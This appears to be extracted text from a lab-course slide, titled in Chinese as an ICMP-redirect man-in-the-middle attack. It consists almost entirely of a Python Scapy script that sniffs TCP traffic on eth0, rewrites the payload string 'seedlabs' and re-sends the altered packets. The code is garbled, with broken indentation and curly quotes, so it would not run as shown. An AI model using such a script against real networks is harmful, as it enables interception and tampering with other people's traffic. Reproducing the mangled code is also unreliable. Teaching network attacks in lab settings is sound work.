

# 2. 利用ICMP重定向进行中间人（MITM）攻击
#!/usr/bin/env python3
from scapy.all import *
 def spoof_pkt(pkt):
newpkt = IP(bytes(pkt[IP]))
del(newpkt.chksum)
del(newpkt[TCP].payload)
del(newpkt[TCP].chksum)
if pkt[TCP].payload:
      data = pkt[TCP].payload.load
      print("*** %s, length: %d" % (data, len(data)))
      # Replace a pattern
  newdata = data.replace(b’seedlabs’, b’AAAAAAAA’)
  send(newpkt/newdata)
else:
     send(newpkt)
f = ‘tcp’
              pkt = sniff(iface=’eth0’, filter=f, prn=spoof_pkt)